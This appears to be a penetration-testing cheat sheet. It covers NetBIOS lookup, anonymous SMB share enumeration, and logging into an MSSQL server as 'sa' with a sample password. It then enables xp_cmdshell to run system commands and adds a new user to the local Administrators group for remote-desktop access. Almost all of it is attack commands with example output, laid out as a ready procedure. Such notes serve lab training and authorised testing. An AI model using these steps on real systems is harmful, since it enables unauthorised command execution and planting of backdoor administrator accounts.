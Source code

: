 ## Lookup Netbios Names

>nmblookup -A 10.11.1.31

### Example Output:

```
	DAVID           <00> -         B <ACTIVE> 
	CORP            <00> - <GROUP> B <ACTIVE> 
	DAVID           <1f> -         B <ACTIVE> 
	DAVID           <03> -         B <ACTIVE> 
	DAVID           <20> -         B <ACTIVE> 
	THINC           <1e> - <GROUP> B <ACTIVE> 
	CORP            <1d> -         B <ACTIVE> 
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> 
```

## Connect to Share without Password


This is an FTP like client to access SMB and CIFS resources on servers
-L specifies the Netbios name
-I is destination IP
-N is no password

>  smbclient -L \\COMPUTERNAME -I 10.0.0.1 -N

### Example Output:
```
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Sharename       Type      Comment
	---------       ----      -------
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	ADMIN$          Disk      Remote Admin
	public_access         Disk      
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	
```

## Connect to specific directory

>smbclient //DAVID/public_access -I 10.11.1.31 -N

# Further Exploitation with Username and Password for MSSQL Server

## Ensure you have relevant tools installed
>apt-get install sqsh freetds-bin freetds-common freetds-dev

## Show Databases
> sqsh -S 10.0.0.1 -U sa -P fdasjkl3 -C "SELECT name FROM master.dbo.sysdatabases"

## Login to sql command line
>sqsh -S 10.0.0.1 -U sa -P fdasjkl3

## If xp_cmdshell is not turned on then you have to enable it. This requires "advanced options" to be on:
```
exec sp_configure ‘show advanced options’, 1
go
reconfigure
go
```

# Output directory of C:\
> xp_cmdshell 'dir C:\'


##Add a new user and put them into Administrators Group
```
xp_cmdshell 'net user bob password /add'
go
xp_cmdshell 'net localgroup Administrators bob /add'
go
```


Now login via remote desktop if you have access
